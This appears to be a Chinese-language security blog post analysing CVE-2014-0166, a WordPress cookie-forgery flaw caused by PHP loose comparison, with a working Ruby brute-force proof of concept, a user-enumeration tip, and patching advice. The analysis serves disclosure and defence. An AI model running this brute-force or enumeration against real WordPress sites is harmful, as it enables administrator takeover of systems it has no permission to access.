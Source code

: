 ```yaml
---
layout: post
title: "CVE-2014-0166 WordPress 偽造 Cookie 弱點"
description: "CVE-2014-0166 是 WordPress 上面驗證登入 cookie 的弱點，攻擊者可以暴力偽造出合法 cookie，藉此獲得 WordPress 最高權限，進而拿到 shell 取得系統操作權。"
category: "技術專欄"
tags: [Vulnerability, CVE, WordPress, Brute-force]
author: "shaolin"
keywords: ""
---
```




### 前言

在一陣 OpenSSL Heartbleed 淘金潮中，又有一個技術門檻低、後果嚴重、也同樣需要些運氣的漏洞被揭發－[CVE-2014-0166](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-0166)。CVE-2014-0166 是 WordPress 上面驗證登入 cookie 的弱點，攻擊者可以暴力偽造出合法 cookie，藉此獲得 WordPress 最高權限，進而拿到 shell 取得系統操作權。
讓我們來分析一下這次的弱點是發生了什麼事吧！

READMORE

### 解析

這次出問題的程式碼在[這邊](https://github.com/WordPress/WordPress/blob/684145ca8101e9ba5d9b4516709121fbe0fb9aee/wp-includes/pluggable.php#L650)，關鍵程式碼如下：

{% highlight php startinline %}$key = wp_hash($username . $pass_frag . '|' . $expiration, $scheme);
$hash = hash_hmac('md5', $username . '|' . $expiration, $key);

if ( $hmac != $hash ) {
  /**
   * Fires if a bad authentication cookie hash is encountered.
   *
   * @since 2.7.0
   *
   * @param array $cookie_elements An array of data for the authentication cookie.
   */
  do_action( 'auth_cookie_bad_hash', $cookie_elements );
  return false;
}
{% endhighlight %}

問題主要發生在比較運算子 != 上面，!= 運算子是 non-strict，會在比較前先做型態轉換，所以下面看似應該是回傳 true 的例子，全部都顯示為 false，細節請參閱[官方手冊](http://www.php.net/manual/en/language.operators.comparison.php)。

{% highlight php startinline %}var_dump(0 != "a"); // 0 != 0 -> false
var_dump("1" != "01"); // 1 != 1 -> false
var_dump("10" != "1e1"); // 10 != 10 -> false
var_dump(100 != "1e2"); // 100 != 100 -> false
var_dump( "0" != "0e10123456789012345678901234567890" ); // 0 != 0 -> false
{% endhighlight %}

進入正題，WordPress 認證身分用的 cookie 內容是這樣的：『username|expiration|hmac』。<br>
username 是使用者名稱，<br>
expiration 是有效期限(timestamp)，<br>
hmac 值用來驗證 cookie 是否合法。<br>
從上面程式碼可以看到，hmac 的算法是經過 username、pass_frag、expiration、key 綜合得出。若有辦法控制 cookie 中的 hmac 使伺服器認為該 cookie 合法，就可以成功偽造成 username。

利用稍早提到的比較運算子問題，若我們讓 cookie 中的 hmac 值為 0，很有可能讓判斷式變成下面這樣：

{% highlight php startinline %}//if ( $hmac != $hash ) {
  if ( "0" != "0e10123456789012345678901234567890" ) {
    do_action( 'auth_cookie_bad_hash', $cookie_elements );
    return false;
  }
{% endhighlight %}

如此便可以通過驗證，成功偽造合法 cookie。<br>
而為了讓 $hash == 0，可以不斷改變 cookie 中的 expiration，讓產生的 MD5 值($hash)經過型態轉換後剛好變成 0。<br>
符合 $hash == 0 的 MD5 $hash 值有 
0eXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX、00eXXXXXXXXXXXXXXXXXXXXXXXXXXXXX....000000000000000000000000000eX、00000000000000000000000000000 (X = 0,1,2,3,4,5,6,7,8,9)

故出現 $hash == 0 的機率為 Sum(10^n,n=0,30)/16^32 = 3.265262085617465e-09

每次偽造的成功機率約為三億分之一，並不會很高，但已經足夠在一個月內拿到最高權限，而且所耗成本並不會很高。

### 實驗

為了驗證此方法之可行性，我們架設了 [WordPress 3.8.1](http://tw.WordPress.org/WordPress-3.8.1-zh_TW.zip) 環境。並且寫程式將登入 cookie 中的 hmac 設為 0，不斷調整 expiration 值測試是否已經登入，程式如下：

{% highlight ruby %}
require 'httpclient'

http = HTTPClient.new

cookie_name = "WordPress_logged_in_de5be3cf9fcea023a1303527e10ea67a"
timestamp = Time.now.to_i

(timestamp..timestamp+800000000).each do |time|
  result = http.get('http://domain.my/WordPress/', nil, {"Cookie"=>"#{cookie_name}=admin%7C#{time}%7C0"})
  if result.body.include? 'logout'
    puts "admin%7C#{time}%7C0"
    break
  end
end
{% endhighlight %}

> 註：此程式為 POC，請自行調整為多執行緒版本，不然速度會很慢。

經過一段長時間的等待，得到的結果如下：

[![暴力偽造 cookie，直到成功登入](https://lh6.googleusercontent.com/-_iTb2VFAarU/U06kKNXwlzI/AAAAAAAAASo/KKIPDLcRaac/w402-h57-no/iTerm.png "暴力偽造 cookie，直到成功登入")](https://lh6.googleusercontent.com/-_iTb2VFAarU/U06kKNXwlzI/AAAAAAAAASo/KKIPDLcRaac/w402-h57-no/iTerm.png)

得知當 cookie 中的 username 為 admin 且 expiration 值為 1421818232 時，伺服器算出來的 hmac 經過型態轉換會變成 0。我們將測試成功的 cookie 值： admin%7C1421818232%7C0 貼到瀏覽器上。成功變成 admin 如下圖，實驗成功！

[![利用偽造的 cookie 登入 WordPress](https://lh3.googleusercontent.com/-Ccf0fswoJX0/U06kL69lmeI/AAAAAAAAASo/Biroo08YcQI/w978-h544-no/Mantra1.png "利用偽造的 cookie 登入 WordPress")](https://lh3.googleusercontent.com/-Ccf0fswoJX0/U06kL69lmeI/AAAAAAAAASo/Biroo08YcQI/w978-h544-no/Mantra1.png)

> 註：一般狀況，若不知道 WordPress 最高權限的帳號，可以利用 WordPress 的 feature 在 http://your.WordPress.com/?author=$id ($id: 1,2,3,4...,999,...) 頁面中列舉所有使用者帳號。通常 $id = 1 的 author 都有 WordPress 的管理權限。

### 結論

最近出現了一個高風險通報 CVE-2014-0166，其中提及 WordPress 在舊版驗證 cookie 的部分出現弱點，可以偽造合法 cookie，進而取得 WordPress 管理權限。本文分析了其原理，並且證實之。

對於攻擊者而言，雖然每次偽造 cookie 成功的機率約為三億分之一並不高，但發送三億個 request 後或許能拿到最高權限，已經是值得投資的級數。

對於 WordPress 管理者而言，建議立即更新至 3.8.2 以後版本，以免受到此風險攻擊。

從此事件也提醒了 PHP 開發者，在撰寫重要的驗證行為，要特別注意 PHP 比較運算子的特性，請使用 === (不等於請用 !==)來保證等式左右型態與值為一樣，避免因為轉型造成的資安風險。


